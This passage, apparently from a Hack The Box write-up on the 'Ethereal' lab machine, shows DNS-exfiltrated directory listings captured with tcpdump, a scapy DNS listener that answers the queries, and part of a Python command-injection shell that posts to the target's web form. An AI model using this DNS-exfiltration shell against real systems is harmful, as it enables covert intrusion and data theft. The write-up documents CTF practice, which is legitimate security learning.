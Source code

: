 ```

22:26:08.157743 IP ethereal.htb.63609 > kali.domain: 1+ PTR? 14.14.10.10.in-addr.arpa. (42)
22:26:10.155284 IP ethereal.htb.56936 > kali.domain: 2+ A? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                               
22:26:12.155170 IP ethereal.htb.56937 > kali.domain: 3+ AAAA? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                            
22:26:14.155072 IP ethereal.htb.56938 > kali.domain: 4+ A? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                               
22:26:16.856501 IP ethereal.htb.56939 > kali.domain: 5+ AAAA? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)

```

I suspect that’s because it doesn’t get an answer, so it tries to ask again. I’ll update the DNS listener to send a response for each domain with the answer “127.0.0.1”:

```

 23     def parse_packet(self, p):
 24         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
 25             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
 26             print(domain[1:-2].replace('X.Q',' ').strip())
 27             reply = IP(dst=p[IP].src)/UDP(dport=p[UDP].sport, sport=53)/DNS(id=p[DNS].id,
 28                     ancount=1, an=DNSRR(rrname=p[DNSQR].qname, rdata='127.0.0.1')/DNSRR(rrname=domain,
 29                     rdata='127.0.0.1'))
 30             send(reply, verbose=0, iface=self.interface)

```

That eliminates the doubles, and reduces the number of DNS packets from five to three, and speeds up the process.

## Improvements

### Error Checking

Sometimes I would walk away from my computer, and the state tokens would go stale. That causes a 500 response to come back when I sent a POST. I could just kill the shell and re-open it, but I’d rather have it just recognize the issue and re-initiate. To do this, I’ll move much of the stuff from `__init__()` to a `do_login()` function (and call it from `__init__()`), and then add a check on the response when I make a POST. If it comes back 500 immediately (using a timer to differentiate from a call that eventually times out to 500 while running a lot of DNS), I’ll call `do_login`. Having the Login function start with `do_` means that I can refresh my login any time by just entering `login` from the shell command line.

My `send_post` now looks like this:

```

 64     def send_post(self, search):
 65         data = {'__VIEWSTATE': self.view_state,
 66                 '__VIEWSTATEGENERATOR': self.view_state_gen,
 67                 '__EVENTVALIDATION': self.event_val,
 68                 'search': search,
 69                 'ctl02': ''}
 70         try:
 71             start = time.time()
 72             resp = requests.post('http://ethereal.htb:8080/',
 73                              proxies=self.proxy,
 74                              data = data,
 75                              auth = self.auth,
```